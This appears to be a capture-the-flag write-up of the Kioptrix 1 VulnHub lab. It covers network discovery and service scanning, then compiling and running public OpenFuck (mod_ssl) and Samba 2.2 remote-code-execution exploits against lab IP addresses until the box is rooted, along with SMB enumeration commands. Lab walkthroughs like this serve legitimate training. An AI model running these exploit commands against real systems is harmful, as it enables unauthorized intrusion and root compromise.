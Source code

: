 #Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2]https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4
This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 
Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3]https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png
 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4]https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png

## 2. Samba Exploit

** 1.enum4linux -a 192.168.1.10

2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\

3.nmap -p 139 --script=smb-vuln* 192.168.1.10

4.smbmap -P 139 -H 192.168.1.10 **

5.samba_version.py Github
https://github.com/amitn322/smb-version/blob/master/samba_version.py
python smb-version/samba_version.py -s 192.168.1.10

![kio6]https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png

Samba2.2
searchsploit samba 2.2

![kio27]https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png


Samba < 2.2.8 (Linux/BSD) - Remote Code Execution


https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.pnghttps://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8]https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

Rooted
